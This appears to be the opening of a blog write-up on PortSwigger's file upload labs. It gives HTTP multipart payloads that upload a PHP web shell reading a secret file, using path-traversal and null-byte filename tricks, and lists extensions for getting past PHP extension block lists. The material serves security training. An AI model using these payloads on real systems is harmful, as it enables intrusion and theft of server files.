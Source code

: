 ```yaml
---
layout: single
title: File upload - PortSwigger
excerpt: "All File upload vulnerabilities of PortSwigger."
date: 2025-09-27
classes: wide
header:
  teaser: /img2/images/portswigger.png
  teaser_home_page: true
  icon: /img2/images/burp.jpg
categories:
  - portswigger
  - Web
tags:
  - Burpsuite
  - File Upload
  - Web Shells
---
```



## TIPS

- Path Traversal to bypass restriction

```http
Content-Disposition: form-data; name="avatar"; filename="%2e%2e%2fexploit.php"
Content-Type: application/x-php

<?php system("cat /home/carlos/secret"); ?>
```

- Null Byte

```http
Content-Disposition: form-data; name="avatar"; filename="exploit.php%00png"
Content-Type: application/x-php

<?php system("cat /home/carlos/secret"); ?>
```

- Extension blacklist bypass

```
php
php2
php3
php4
php5
php6
php7
phps
pht
phtm
phtml
pgif
shtml
htaccess
phar
inc
hphp
ctp
module
php
php4
php5
```